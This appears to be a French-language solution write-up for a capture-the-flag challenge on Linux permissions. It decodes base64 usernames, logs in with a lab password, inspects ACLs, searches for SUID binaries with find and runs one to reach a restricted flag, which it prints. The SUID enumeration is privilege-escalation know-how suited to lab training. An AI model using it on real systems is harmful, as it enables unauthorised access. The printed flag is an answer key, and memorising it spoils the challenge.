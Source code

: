 # 🔐 Solution du CTF Linux Permissions Master

## Étape 1: Décryptage des identifiants
```bash
# Décryptage base64
echo "cm9vdG1lX3VzZXIx" | base64 -d    # rootme_user1
echo "cm9vdG1lX3VzZXIy" | base64 -d    # rootme_user2
echo "YWRtaW5fdXNlcg==" | base64 -d    # admin_user
echo "c2VjdXJpdHlfZ3Jw" | base64 -d    # security_grp
echo "ZmxhZ190ZXN0LnR4dA==" | base64 -d # flag_test.txt
```

## Étape 2: Exploration initiale
```bash

# Connexion avec rootme_user1
su - rootme_user1
password: PASSWORD123

# Exploration de /ctf
ls -la /ctf
```

## Étape 3: Analyse des permissions
```bash

# Vérification des ACL
getfacl /ctf/restricted
# rootme_user1 a accès en lecture seule

# Lecture de l'indice
cat /ctf/restricted/hint.txt
```

## Étape 4: Exploitation du SUID
```bash

# Recherche des binaires SUID
find /ctf -perm -4000 2>/dev/null
# /ctf/binaries/create_flag

# Exécution du binaire
/ctf/binaries/create_flag
```

## Étape 5: Récupération du flag
```bash

# Le binaire a créé le vrai flag
ls -la /ctf/private/real_flag.txt
# Mais seul admin_user peut le lire!

# Solution: utiliser le binaire SUID qui s'exécute comme admin_user
# Le flag est: RM{suid_bit_escalation_1337}
```
